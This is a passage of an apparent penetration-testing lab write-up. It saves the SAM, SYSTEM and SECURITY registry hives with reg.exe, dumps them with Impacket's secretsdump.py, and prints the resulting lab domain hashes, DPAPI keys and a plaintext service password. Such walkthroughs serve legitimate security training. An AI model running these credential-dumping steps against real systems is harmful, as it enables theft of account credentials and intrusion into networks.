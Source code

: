 >Save security registry hives to local host and copy to Kali via RDP drive mapping.  

```
cd c:\temp
reg.exe save hklm\sam C:\temp\sam.save
reg.exe save hklm\system C:\temp\system.save
reg.exe save hklm\security C:\temp\security.save
```  

![pivot-skills-assessment-SAM-Attack](/images/pivot-skills-assessment-SAM-Attack.png)  

>Dumping Hashes with Impacket's secretsdump.py  

```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```  

>Obtained hashes from dump:  

```
[*] Dumping cached domain logon information (domain/username:hash)
INLANEFREIGHT.LOCAL/Administrator:$DCC2$10240#Administrator#7b2aeb20037c28bc44032f7081f304df: (2022-05-17 16:09:37)
INLANEFREIGHT.LOCAL/vfrank:$DCC2$10240#vfrank#cfaf1869163aa26757496e1cd9970316: (2022-05-18 18:38:43)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:7a00340050004e0024<snip>037002300
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:21ce18b1a025d4b0b01c0e716e99d476
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x2c1bed0e346af06d64c32dcfd108d8fb3af1e353
dpapi_userkey:0x8a888dcf7becc69d4065caf26b6a534ab160144c
[*] NL$KM 
 0000   A2 52 9D 31 0B B7 1C 75  45 D6 4B 76 41 2D D3 21   .R.1...uE.KvA-.!
 0010   C6 5C DD 04 24 D3 07 FF  CA 5C F4 E5 A0 38 94 14   .\..$....\...8..
 0020   91 64 FA C7 91 D2 0E 02  7A D6 52 53 B4 F4 A9 6F   .d......z.RS...o
 0030   58 CA 76 00 DD 39 01 7D  C5 F7 8F 4B AB 1E DC 63   X.v..9.}...K...c
NL$KM:a2529d310bb71c7545d64b76412dd321c65<snip>a96f58ca7600dd39017dc5f78f4bab1edc63
[*] _SC_DHCPServer 
(Unknown User):Imply wet Unmasked!
[*] _SC_SCardSvr 
(Unknown User):Imply wet Unmasked!
[*] Cleaning up... 
```  
